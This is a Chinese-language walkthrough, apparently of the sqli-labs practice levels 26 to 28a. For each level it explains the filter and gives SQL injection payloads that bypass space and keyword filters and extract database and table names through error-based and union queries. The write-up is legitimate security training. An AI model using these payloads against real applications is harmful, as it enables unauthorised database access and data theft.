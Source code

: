 # 26-28
## 第二十六关
查看源码后发现，该关为单引号包裹的字符型注入
过滤了`or,and,/*,--,#,空格,\,/`
空格替代：
`%09：表示制表符（Tab）。
%0a：表示换行符（LF）。
%0c：表示换页符（FF）。
%0d：表示回车符（CR）。
%0b：表示垂直制表符（VT）。
%a0：表示非断行空格（Non-breaking Space）
()`
and和or绕过：
双写和大小写绕过
and和or的替代有`&&,||`
异或绕过，取反绕过
无法注释，只能进行闭合
该关会回显错误信息，因此可以使用报错注入：
```
?id=1%27anandd'1'='2
?id=1%27anandd(extractvalue(1,concat(0x7e,database(),0x7e)))oorr%271
```
## 第二十六a关
查看源码后发现，该关为`('')`包裹的字符型注入
该关过滤了`or,and,/*,--,#,空格、制表符、换行符,\,/`
该关过滤了两次
不会回显错误信息，因此使用union注入
通过打印错误信息发现，该关不能使用`%a0,%0a,%0c,%0d,%09`
目前仅试出只能使用`%0b`
```
?id=1')union%0bselect%0b1,2,3%0boorr('
?id=11111')union%0bselect%0b1,database(),3%0boorr('
```
成功爆出信息
## 第二十七关
该关使用`''`包裹变量的字符型注入
该关过滤了`/*,--,#,空格,union,select,UNION,SELECT,Union,Select`
会回显报错信息，因此可以使用报错注入，也可尝试绕过过滤使用union注入
```
?id=1'order%0bby%0b1%0bor'1    //没有回显
?id=1'unIon%0bSelecT%0b1,2,3%0bor'1    //该方法爆出有三列
?id=1111'unIon%0bSelecT%0b1,database(),3%0bor'1
?id=1111'unIon%0bSelecT%0b1,(sElect%0bgroup_concat(table_name)from%0binformation_schema.tables%0bwhere%0btable_schema=database()),3%0bor'1
```
成功爆出数据库信息
尝试报错注入
```
?id=1%27and(extractvalue(1,concat(0x7e,database(),0x7e)))or%271
?id=1%27anb(extractvalue(1,concat(0x7e,(select),0x7e)))or%271
/?id=1%27and(extractvalue(1,concat(0x7e,(SeleCt%0agroup_concat(table_name)from%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x7e)))or%271
```
## 第二十七a关
通过查看源码发现，该关为双引号的字符型注入
该关过滤了`/*,--,#,空格,select,union,UNION,SELECT,Union,Select`
该关使用双引号闭合，无错误信息输出，空格被过滤，过滤注释符，只能闭合。
该关不会打印错误信息，无法使用报错注入
尝试union注入：
```
?id=1"%0buniOn%0bseleCt%0b1,2,3%0bor"1    //查出有三列
?id=1111"%0buniOn%0bseleCt%0b1,database(),3%0bor"1
```
后续进行union注入即可
## 第二十八关
通过查看源码发现，变量是被`('')`包裹的字符型注入
过滤了`/*,--,#,空格,union select(无视大小写)`
不会打印错误信息，无法使用报错注入
union select绕过：
双写 union union select select
添加字符 union all select
进行闭合尝试：
```
?id=1')order%0aby%0a1%0aand('    //因为不会回显报错信息，该方式无法进行探测
?id=1')union%0aunion%0aselect%0aselect%0a1,2,3%0aand('    //只有为三列时才不会报错，说明就是三列
?id=111111')union%0aunion%0aselect%0aselect%0a1,database(),3%0aand('
?id=111111')union%0aunion%0aselect%0aselect%0a1,(select%0agroup_concat(table_name)from%0ainformation_schema.tables%0awhere%0atable_schema=database()),3%0aand('
```
爆出数据即可
## 第二十八a关
通过查看源码发现该关为`('')`包裹的字符型注入
过滤了`/*,--,#,空格,select,union select(select无视大小写)`
不会回显报错信息，不能使用报错注入
尝试union注入：
```
?id=1')uNion%0bselect%0b1,2,3%0band('
?id=1111')uNion%0bselect%0b1,database(),3%0band('
```
成功爆出数据